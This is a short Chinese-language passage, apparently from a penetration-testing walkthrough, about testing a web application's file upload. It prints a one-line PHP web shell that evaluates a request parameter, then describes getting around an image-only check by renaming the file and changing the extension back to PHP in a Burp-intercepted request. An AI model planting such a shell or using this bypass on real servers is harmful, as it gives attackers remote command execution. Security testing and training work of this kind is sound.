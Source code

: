 



#### 文件上传测试

尝试上传一句话木马

```php
<?php @eval($_REQUEST['cmd']);?>
```

有检测，提示只能上传图片类型

![](./pic-1/17.jpg)



尝试把`php`格式改为图片格式，再进行上传，这里要配合抓包

在`burp`抓取的数据包中修改原本的图片格式，改为`php`

![](./pic-1/17-1.jpg)
